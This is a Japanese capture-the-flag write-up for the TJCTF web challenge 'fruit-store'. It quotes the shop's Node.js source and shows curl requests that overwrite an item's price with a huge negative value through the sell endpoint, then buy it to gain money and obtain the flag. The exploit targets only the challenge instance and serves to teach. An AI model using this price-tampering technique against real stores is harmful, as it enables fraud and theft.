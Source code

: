 # fruit-store:web:XXXXpts
:lemonthink:  
[Instancer](https://instancer.tjctf.org/fruit-store)  

Downloads  
[server.zip](server.zip)  

# Solution
ソースとインスタンス生成リンクが渡される。  
生成しアクセスするとフルーツを購入できるサイトのようだ。  
Fruit Shop  
[site.png](site/site.png)  
購入以外できないと思われ、超高額なgrassを買えばよさそうだ。  
次にソースを見る。  
```js
~~~
fruits['grass'] = {
    name: 'grass',
    price: 2.5e+25,
    description: fs.readFileSync('flag.txt', 'utf8').trim(),
    quantity: 1
};
~~~
app.post('/api/v1/sell', (req, res) => {
    for (const [key, value] of Object.entries(req.body)) {
        if (key === 'grass' && !req.session.admin) {
            continue;
        }

        if (!fruits[key]) {
            fruits[key] = JSON.parse(JSON.stringify(fruit));
        }

        for (const [k, v] of Object.entries(value)) {
            if (k === 'quantity') {
                fruits[key][k] += v;
            } else {
                fruits[key][k] = v;
            }
        }
    }

    res.send('Sell successful');
});

app.post('/api/v1/buy', (req, res) => {
    const { fruit, quantity } = req.body;

    if (typeof fruit === 'undefined' || typeof quantity !== 'number' || quantity <= 0 || !fruits[fruit]) {
        return res.status(400).send('Invalid request');
    }

    if (fruits[fruit].quantity >= quantity) {
        if (req.session.money >= fruits[fruit].price * quantity) {
            fruits[fruit].quantity -= quantity;
            req.session.money -= fruits[fruit].price * quantity;
            res.json(fruits[fruit]);
        } else {
            res.status(402).send('Not enough money');
        }
    } else {
        res.status(451).send('Not enough fruit');
    }
});
~~~
```
`/api/v1/sell`で売ることができるようだ。  
ただし、grassはブロックされている。  
adminのみお金を増やせるなどの処理があるが、あまり関係はない。  
所持数を確認していないため、無限にフルーツを売りつけることができるが、お金が増えることはない。  
ここでソースの以下の部分に注目する。  
```js
~~~
        for (const [k, v] of Object.entries(value)) {
            if (k === 'quantity') {
                fruits[key][k] += v;
            } else {
                fruits[key][k] = v;
            }
        }
~~~
```
商品の個数を追加しているが、`quantity`以外のキーを指定するとvに書き換えることができる。  
これで商品のnameやpriceなどが任意の値に変更できるようになった。  
さらに購入処理の以下の部分に注目する。  
```js
~~~
        if (req.session.money >= fruits[fruit].price * quantity) {
            fruits[fruit].quantity -= quantity;
            req.session.money -= fruits[fruit].price * quantity;
~~~
```
自身の所持金からフルーツ代金*購入量を引いている。  
つまりフルーツ代金をマイナスにするとお金が増えることがわかる。  
よって以下の通り、sellするタイミングでpriceをマイナスにし、それを購入することで所持金を増やしgrassを買えばよい。  
今回は在庫があるbananaの代金をマイナスにした。  
```bash
$ curl -X POST 'https://fruit-store-16ac1ecab524d650.tjc.tf/api/v1/sell' -H 'Content-Type: application/json' -H 'Cookie: connect.sid=s%3AQ-jvlbKwnUCNiMsiK09bLo7BcCqHuhey.rTsHWm1SpJX39O9itN%2Fjd6vZvJ0FsRHWdn86gKJrfzk' -d '{"banana": {"price":-10000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000}}'
Sell successful
$ curl -X POST 'https://fruit-store-16ac1ecab524d650.tjc.tf/api/v1/buy' -H 'Content-Type: application/json' -H 'Cookie: connect.sid=s%3AQ-jvlbKwnUCNiMsiK09bLo7BcCqHuhey.rTsHWm1SpJX39O9itN%2Fjd6vZvJ0FsRHWdn86gKJrfzk' -d '{"fruit":"banana","quantity":1}'
{"name":"banana","price":-1e+100,"description":"banannananananannana","quantity":4}
$ curl -X POST 'https://fruit-store-16ac1ecab524d650.tjc.tf/api/v1/buy' -H 'Content-Type: application/json' -H 'Cookie: connect.sid=s%3AQ-jvlbKwnUCNiMsiK09bLo7BcCqHuhey.rTsHWm1SpJX39O9itN%2Fjd6vZvJ0FsRHWdn86gKJrfzk' -d '{"fruit":"grass","quantity":1}'
{"name":"grass","price":2.5e+25,"description":"tjctf{h4v3_y0u_ev3r_tri3d_gr4s5_j3l1y_d4ebd9}","quantity":0}
```
flagが得られた。  

## tjctf{h4v3_y0u_ev3r_tri3d_gr4s5_j3l1y_d4ebd9}